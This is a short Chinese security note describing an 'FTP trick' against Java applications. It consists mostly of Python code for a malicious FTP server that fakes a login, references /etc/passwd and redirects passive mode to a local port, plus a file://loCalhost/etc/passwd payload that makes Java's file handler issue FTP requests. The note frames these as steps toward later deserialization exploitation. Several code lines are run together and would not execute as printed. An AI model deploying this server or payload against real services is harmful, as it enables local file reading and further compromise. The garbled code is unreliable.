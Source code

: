 # FTP-trick

知识星球学到的，恶意的ftp服务端：

```python
# evil_ftp.py 
import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23)) 
s.listen(1) 
conn, addr = s.accept()

conn.send(b'220 welcome\n') 
print(conn.recv(1024))

conn.send(b'331 Please specify the password.\n') 
print(conn.recv(1024))

conn.send(b'230 Login successful.\n') 
print(conn.recv(1024))

conn.send(b'200 /etc/passwd\n') 
print(conn.recv(1024))

conn.send(b'1 to Passive.\n') 
print(conn.recv(1024))

# to vps 
# mac 
# conn.send(b'227 Entering Extended Passive Mode (127.0.0.1,0,900)\n') 
# windows 
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,900)\n') print(conn.recv(1024))

#QUIT 
conn.send(b'221 Goodbye.\n') 
print(conn.recv(1024)) 
conn.close()
```



```python
import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 900)) 
s.listen(1) conn, addr = s.accept() 
conn.send(b'this is fack ftp server return\n') 
conn.close()
```

对于java的协议，file协议在host不是`~`或`localhost`的时候会进行ftp请求：

![image-20240420092936949](FTP-trick.assets/image-20240420092936949.png)

可以有如下trick：

```
file://loCalhost/etc/passwd
```



也可以创建恶意的ftp服务器，请求得到任何的内容，可以供后续可能的反序列化等利用。

## References

https://t.zsxq.com/19qEy3MaH